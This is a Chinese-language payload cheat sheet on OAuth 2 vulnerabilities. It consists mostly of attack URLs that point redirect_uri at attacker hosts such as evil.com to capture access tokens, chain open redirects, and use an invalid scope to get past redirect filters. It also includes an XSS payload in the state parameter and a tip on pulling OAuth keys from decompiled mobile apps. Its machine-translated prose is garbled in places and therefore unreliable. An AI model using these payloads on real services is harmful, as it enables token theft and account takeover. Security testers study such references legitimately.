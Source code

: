 # OAuth 2常见的漏洞

## 通过redirect_uri抓取的OAuth令牌
重定向到受控域以获取访问令牌
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到接受的打开URL以获取访问令牌
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```
OAuth的实现绝不将整个领域列入优良者名单, 只有少数的网址，“redirect_uri”不能指出一个开放的重定向。

 
有时你需要改变范围到一个无效的来疏通redirect_uri的滤波器:
```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过redirect_uri执行XSS
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth密钥泄露
一些Android / iOS应用程序可以被反编译并且OAuth密钥可以访问。

## 违反授权代码规则
```
The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.
```

## 感谢
* http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html
* http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html
* http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html
* http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html
